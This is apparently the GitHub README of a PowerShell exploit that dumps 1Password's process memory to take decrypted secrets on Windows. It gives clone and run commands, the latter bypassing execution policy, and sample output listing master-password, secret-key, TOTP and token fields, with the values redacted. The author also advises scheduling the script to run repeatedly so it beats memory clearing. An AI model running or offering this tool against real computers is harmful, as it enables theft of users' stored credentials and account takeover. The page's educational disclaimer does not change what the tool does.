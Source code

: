 # 1Password Secrets Dump

The 1Password password manager client keeps a lot of sensitive information in memory, such as credentials or any other type of document saved within the database.

A local user with **administrative privileges** can exfiltrate many of the secrets kept by 1Password by performing a memory dump of the `1Password.exe` process.

## Table of Contents

- [1Password Secrets Dump](#1password-secrets-dump)
  - [Table of Contents](#table-of-contents)
  - [About the issue](#about-the-issue)
  - [Getting Started](#getting-started)
    - [Prerequisites](#prerequisites)
    - [Installation](#installation)
  - [Usage](#usage)
    - [Example](#example)
  - [Known issues](#known-issues)
  - [Contributing](#contributing)
  - [Authors](#authors)
  - [Disclaimer](#disclaimer)
  - [License](#license)

## About the issue

_When you view an item in 1Password, the information must be decrypted for you to see it. 1Password temporarily stores this information in your computer’s memory while 1Password is open._

_This means that while 1Password is open, it’s possible for someone who has access to your computer to read that information from your computer’s memory. Under normal circumstances, only you have access to that information. This is how all software works._
[https://support.1password.com/kb/201902a/#about-the-issue](https://support.1password.com/kb/201902a/#about-the-issue)

## Getting Started

Thanks to these instructions, you can get a copy of the project up and run on your local machine for development and testing purposes.

### Prerequisites

- PowerShell
- 1Password client for Windows

### Installation

```powershell
git clone https://github.com/MrTiz/1Password-Secrets-Dump.git
```

## Usage

```powershell
PowerShell.exe -ExecutionPolicy Bypass -File .\1PasswordSecretsDump.ps1
```

### Example

```powershell
PowerShell.exe -ExecutionPolicy Bypass -File .\1PasswordSecretsDump.ps1
```
```json
...

{"account_state":"[REDACTED]","account_template_version":"[REDACTED]","account_type":"[REDACTED]","account_version":11,"base_attachment_url":"https://f.1passwordusercontent.eu/","base_avatar_url":"https://a.1passwordusercontent.eu/","secret_key":"[REDACTED]","enc_srp_x":{"cty":"b5+jwk+json","kid":"srpxkey","enc":"A256GCM","iv":"[REDACTED]","data":"[REDACTED]"},"sign_in_url":"https://my.1password.eu/","team_avatar":"[REDACTED]","team_name":"[REDACTED]","updated_at":"[REDACTED]","user_avatar":"[REDACTED]","user_email":"[REDACTED]","user_name":"[REDACTED]","user_keyset_version":"[REDACTED]","user_uuid":"[REDACTED]","user_version":"[REDACTED]","acl":"[REDACTED]","device_uuid":"[REDACTED]","billing_status":"[REDACTED]","storage_capacity":"[REDACTED]","storage_used":"[REDACTED]","account_template_language":"en-US","enc_unlock_key":{"cty":"b5+jwk+json","kid":"system_lock_protector","enc":"A256GCM","iv":"[REDACTED]","data":"[REDACTED]"},"enc_local_validation_key":{"cty":"b5+jwk+json","kid":"core-setting-authkey-wrapper","enc":"A256GCM","iv":"[REDACTED]","data":"[REDACTED]"}}

{"sections":[{"name":"[REDACTED]","title":"Secret Key","fields":[{"t":"secret key","n":"account-key","k":"concealed","v":"[REDACTED]"},{"t":"one-time password","n":"TOTP_[REDACTED]","k":"concealed","v":"[REDACTED]"}]},{"name":"linked items","title":"Related Items"}],"fields":[{"name":"email","value":"[REDACTED]","type":"T","designation":"username","id":""},{"name":"master-password","value":"[REDACTED]","type":"P","designation":"password","id":""},{"name":"account-key","value":"[REDACTED]","type":"T","id":""}],"notesPlain":"You can use this login to sign in to your account on 1password.eu."}

{"fields":[{"value":"MrTiz","name":"username","type":"T","designation":"username","id":""},{"value":"[REDACTED]","name":"password","type":"P","designation":"password","id":""}],"htmlForm":{},"sections":[{"name":"Section_[REDACTED]","title":"","fields":[{"k":"concealed","n":"TOTP_[REDACTED]","t":"one-time password","v":"otpauth://totp/Github:[REDACTED]?secret=[REDACTED]&period=[REDACTED]&digits=[REDACTED]&issuer=[REDACTED]"},{"k":"email","n":"[REDACTED]","t":"email","v":"[REDACTED]"},{"k":"concealed","n":"[REDACTED]","t":"Token","v":"[REDACTED]"},{"k":"phone","n":"[REDACTED]","t":"phone","v":"[REDACTED]"}]},{"name":"linked items","title":"Related Items"}],"notesPlain":"[REDACTED]","passwordHistory":[{"value":"[REDACTED]","time":"[REDACTED]"}]}

...
```

**N.B.** <u>Keep in mind that since version 7.4.750 for Windows, process memory is cleared much faster than in previous versions</u>. This was the result of what has been a long-term and ongoing project to rewrite 1Password for Windows in Rust [[kb/201902a](https://support.1password.com/kb/201902a/#update-highlights)].
So the ability to properly exfiltrate credentials is also a matter of luck as it is important to be able to run the script before the secrets are deleted from the process memory. Otherwise, you can schedule the script to run automatically at regular intervals or to run based on the visibility or focus of the client window. 😉

## Known issues
- If any of the fields within the JSON objects to be exfiltrated contain non-ASCII characters (e.g., emoji) pattern matching will fail!

## Contributing

Contributions are what make the open source community such a good place to learn, inspire, and create. 
Any contributions you can provide are **greatly appreciated**.

1. Fork the Project
2. Create your Feature Branch (`git checkout -b feature/AmazingFeature`)
3. Commit your Changes (`git commit -m 'Add some AmazingFeature'`)
4. Push to the Branch (`git push origin feature/AmazingFeature`)
5. Open a Pull Request

## Authors

- **[Tiziano Marra](https://github.com/MrTiz)**

## Disclaimer

This exploit was developed and published for educational and research purposes only. The author assumes no responsibility for any illegal use. Use it at your own risk and only against systems for which you are authorized to test it.

## License
[![License: GPL v3](https://img.shields.io/badge/License-GPLv3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)

This project is licensed under the GNU General Public License v3.0 - see the 
[LICENSE](https://github.com/MrTiz/1Password-Secrets-Dump/blob/main/LICENSE) file for details.
